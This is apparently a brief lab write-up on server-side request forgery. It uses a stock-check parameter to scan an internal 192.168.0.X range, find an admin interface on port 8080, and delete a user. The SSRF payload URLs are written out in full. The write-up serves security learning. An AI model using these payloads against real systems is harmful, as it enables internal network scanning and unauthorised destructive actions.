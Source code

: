 # Basic SSRF against another back-end system

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

---

### step 1

intercept the check functionality
send to intruder

## stockApi=http://192.168.0.§1§:8080/admin

set payload number
add range 1 to 255
and steps 1

## stockApi=http://192.168.0.230:8080/admin

at 230 it successful to get admin panel

### step2

again intercept heck functionality

## stockApi=http://192.168.0.230:8080/admin/delete?username=carlos
